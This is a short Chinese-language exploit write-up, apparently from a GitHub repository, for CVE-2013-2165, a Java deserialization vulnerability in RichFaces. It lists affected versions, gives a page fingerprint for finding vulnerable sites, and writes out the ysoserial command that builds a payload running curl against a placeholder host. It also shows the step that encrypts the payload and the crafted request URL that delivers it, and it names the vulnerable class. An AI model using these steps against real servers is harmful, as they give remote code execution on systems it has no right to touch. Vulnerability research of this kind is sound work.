


# CVE-2013-2165
利用范围: 

3.1.0 ≤ 3.3.3

4.0.0 ≤ 4.3.2

richfaces-demo-3.3.3.Final-tomcat6.war包搭建成功

## 辨别

访问本地`/welcome.jsf`

观察网页会有以下特征

```
<script src="/a4j/g/3_3_3.Final/org/ajax4jsf/framework.pack.js.jsf" type="text/javascript">
```

## 利用

```
生成反序列化利用:
java -jar ysoserial.jar CommonsCollections5 "curl -v http://www.xxx.com/" > payload.bin

生成richfaces加密后的payload:
java -jar CVE-2013-2165.jar /Users/l3m0n/work/tools/java/payload.bin
```



需要注意的是，payload前一定要是`DATA`，其中后缀`jsf`看网页html情况

```
http://localhost:8085/a4j/s/3_3_3.Finalorg/richfaces/renderkit/html/css/extended_both.xcss/DATA/[Payload替换位置].jsf
```

## 分析

漏洞主要位于: `richfaces-impl-3.3.3.Final.jar!/org/ajax4jsf/resource/ResourceBuilderImpl.class:221`



整个流程也比较简单，请求`http://localhost:8085/a4j/s/3_3_3.Finalorg/richfaces/renderkit/html/css/extended_both.xcss/DATA/eAF7sqpgb-jyGdIAFrMEaw__.jsf`

会将`DATA`后面的数据(也就是`eAF7sqpgb-jyGdIAFrMEaw`)经过解密传入到`dataString`变量中，最后会进入readObject，要注意上图访问的是`DATB`，最后的返回是一个数组，没有进入反序列中。

